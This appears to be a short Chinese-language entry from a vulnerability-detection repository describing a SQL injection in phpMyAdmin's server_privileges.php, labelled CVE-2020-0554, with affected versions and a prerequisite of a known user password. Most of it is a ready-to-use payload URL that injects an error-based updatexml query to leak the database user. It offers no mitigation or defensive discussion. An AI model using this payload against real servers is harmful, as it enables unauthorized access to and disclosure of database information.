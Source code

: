 # CVE-2020-0554 phpMyadmin SQL注入

影响版本： 4<4.9.4 and 5>5.0.1  

前提：已知phpMyadmin的一个用户口令  

Payload:  
```
/phpMyAdmin-4.9.2-all-languages/server_privileges.php?ajax_request=true&validate_username=true&username=test%27%20and%20(select%20updatexml(1,concat(0x7e,(SELECT%20user()),0x7e),1))%20--%20
```

![image](https://github.com/mai-lang-chai/Middleware-Vulnerability-detection/blob/master/phpMyadmin/CVE-2020-0554/pic/p.jpg)